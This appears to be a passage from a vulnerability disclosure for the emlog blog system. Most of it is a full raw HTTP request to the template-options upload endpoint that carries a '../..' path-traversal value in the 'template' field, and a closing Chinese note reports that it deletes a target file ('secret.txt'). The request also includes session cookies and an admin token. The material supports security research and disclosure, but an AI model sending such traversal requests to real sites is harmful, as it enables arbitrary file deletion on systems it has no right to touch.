 ```http
POST /emlog/admin/plugin.php?plugin=tpl_options&token=f84d7b2cb44f1c6839816ca0f028ef1a35d66d2e&filter=&do=upload HTTP/1.1


Content-Disposition: form-data; name="target"

s
-----------------------------26132868467189384564220341836
Content-Disposition: form-data; name="template"

../..
```

**Note**: The admin token is required.

The complete HTTP request looks like this:

```http
POST /emlog/admin/plugin.php?plugin=tpl_options&token=f84d7b2cb44f1c6839816ca0f028ef1a35d66d2e&filter=&do=upload HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------26132868467189384564220341836
Content-Length: 569
Origin: http://localhost
Connection: close
Cookie: XDEBUG_SESSION=AFCC; csrftoken=N1K4gile3UYv5N2MXM1ShwrrDTIW4JlfeGUS9a3XNzAxoXvHZ3itSuzzfFW4qdo8; devicePixelRatio=2; Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; EM_AUTHCOOKIE_Is4qa70oOAoxVSN06kHCjdfvPUF6AvMI=admin%7C1768614317%7Cbce91a6d0efcfa837abca98d5feac895; PHPSESSID=uj9b3lutm7ddq4u6a9jctmtgr6
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

-----------------------------26132868467189384564220341836
Content-Disposition: form-data; name="image"; filename="1.png"
Content-Type: image/png

�PNG

-----------------------------26132868467189384564220341836
Content-Disposition: form-data; name="submit"

Submit
-----------------------------26132868467189384564220341836
Content-Disposition: form-data; name="target"


-----------------------------26132868467189384564220341836
Content-Disposition: form-data; name="template"

../..
-----------------------------26132868467189384564220341836--

```
抓包调试，成功匹配到`secret.txt`进行unlink